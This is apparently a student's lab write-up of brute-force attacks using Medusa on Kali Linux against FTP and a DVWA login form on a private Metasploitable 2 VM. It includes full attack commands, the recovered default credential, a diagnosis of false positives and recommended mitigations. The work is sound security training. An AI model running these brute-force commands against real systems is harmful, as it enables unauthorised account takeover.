


# Brute-Force Attacks with Medusa — Kali Linux

> ⚠️ **Disclaimer:** This project was conducted entirely in a **private, isolated lab environment** (Kali Linux and Metasploitable 2 in VirtualBox). No real or third-party systems were targeted.

## Objective

Document the execution of **brute-force attacks** against an **FTP service** and a **web-form login** (DVWA), using **Medusa** on **Kali Linux**, in a controlled lab environment (**Metasploitable 2**), with the goal of understanding how these attacks work and proposing mitigation measures.

## Environment

- **Attacker:** Kali Linux (VirtualBox)
- **Target:** Metasploitable 2 (VirtualBox) — IP `192.168.56.101`
- **Network:** Host-only (`192.168.56.0/24`) to isolate the lab between Kali and Metasploitable, with an additional NAT adapter on Kali for internet access only (cloning the repository, updates, etc.)

## Attack 1: FTP

**Command:**

```bash
medusa -h 192.168.56.101 -U user.txt -P pass.txt -M ftp -t 6
```

**Result:**

```
2026-11-07 12:08:22 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

Valid credential found: **msfadmin : msfadmin**



## Attack 2: DVWA (web-form)

**Command used:**

```bash
medusa -h 192.168.56.101 -U user.txt -P pass.txt -M http \
  -m PAGE:"/dvwa/login.php" \
  -m FORM:"username^USER^&password=^PASS^&Login=Login" \
  -m "FAIL=Login failed" -t 6
```

**Result and key observation:**

The output showed several `WARNING: Invalid method: PAGE`, `FORM`, `FAIL=Login failed` messages. The root cause was identified: the command used the **`-M http`** module (**HTTP Basic authentication**), but the `-m PAGE:`, `-m FORM:`, and `-m FAIL=` parameters are only recognized by the **`-M web-form`** module, used specifically for login forms like DVWA's. Because it didn't recognize these parameters, Medusa couldn't properly validate the username/password pairs, and reported **every** tested combination as `[SUCCESS]` — a **false positive** from the tool, not a real compromise.

**Correct command for a future run:**

```bash
medusa -h 192.168.56.101 -U user.txt -P pass.txt -M web-form \
  -m PAGE:"/dvwa/login.php" \
  -m FORM:"username^USER^&password=^PASS^&Login=Login" \
  -m "FAIL=Login failed" -t 6
```

**Lesson learned:** this episode reinforces two important points: (1) the importance of manually validating any credential "found" by an automated tool before trusting it, and (2) the need to choose the correct Medusa module for each service type — **`web-form`** for HTML forms, not **`http`** (which is for HTTP Basic/Digest authentication).



## Recommended mitigations

- **FTP:** disable default/weak accounts (such as `msfadmin`), enforce a strong password policy, limit login attempts, and use temporary lockouts after repeated failures (e.g., **fail2ban**).
- **DVWA / web forms:** implement **CAPTCHA**, rate-limit attempts per IP, use **multi-factor authentication (MFA)**, and log/alert on suspicious login attempts.
- **General:** monitor authentication logs and segment the network to reduce the attack surface.

## What I learned

- Setting up an isolated lab with VirtualBox (host-only network + NAT for internet access).
- Practical use of **Medusa** for **brute-force attacks** against **FTP**.
- Identifying and diagnosing a configuration error (**`-M http`** instead of **`-M web-form`**) that caused **false positives** when attacking a web form, reinforcing the need to manually validate the results of automated tools.
